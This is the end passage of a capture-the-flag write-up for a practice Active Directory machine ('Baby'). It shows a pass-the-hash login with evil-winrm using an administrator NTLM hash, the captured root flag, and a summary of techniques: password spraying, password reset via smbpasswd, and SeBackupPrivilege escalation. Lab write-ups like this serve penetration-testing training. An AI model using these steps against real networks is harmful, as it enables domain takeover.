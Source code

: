 ```bash

```

- Login as Domain Admin:

```bash
┌──(root㉿kali)-[/home/kali/vulnlab/baby]
└─# evil-winrm -i 10.10.85.199 -u 'administrator' -H 'ee4457ae59f1e3fbd764e33d9cef123d' 
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
baby\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls

    Directory: C:\Users\Administrator\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        11/21/2021   3:22 PM             36 root.txt

*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
VL{9000cab96bcf62e99073ff5f6653ce90}

```




Root Flag: `VL{9000cab96bcf62e99073ff5f6653ce90`


# Conclusion

A very nice machine for beginners with Active Directory. We learned some of the key concepts of a pentest at Active Directory environments:
- Recon with `nxc` and `ldapsearch`
- Creating an userlist and perform a `password spray attack` 
- Change a password from an user via `smbpasswd`
- Using `SeBackupPrivilege` for privilege escalation 



